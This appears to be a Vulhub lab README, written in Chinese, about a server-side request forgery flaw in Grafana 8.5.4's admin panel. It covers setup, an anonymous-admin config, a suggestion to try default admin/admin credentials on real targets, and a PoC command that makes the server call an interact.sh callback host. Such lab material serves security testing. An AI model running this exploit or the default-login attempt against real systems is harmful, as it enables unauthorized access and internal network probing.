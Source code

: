 # Grafana管理后台SSRF

Grafana是一个开源的度量分析与可视化套件。在其管理后台中存在一个功能，攻击者可以用于向任意地址发送HTTP请求，且支持自定义HTTP Header。

参考链接：

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## 漏洞环境

执行如下命令启动一个Grafana 8.5.4：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到管理后台。这个管理后台是不需要登录的，因为Vulhub环境设置了匿名用户的权限：

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

在真实场景中，如果你没有权限访问管理界面，可以尝试使用默认账号密码`admin`和`admin`，只能能够成功登录后台的用户才能利用这个漏洞。

## 漏洞复现

使用[这个POC](https://github.com/RandomRobbieBF/grafana-ssrf)来复现SSRF漏洞：

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```

![](1.png)

可见，我们的反连平台已成功收到了HTTP请求：

![](2.png)
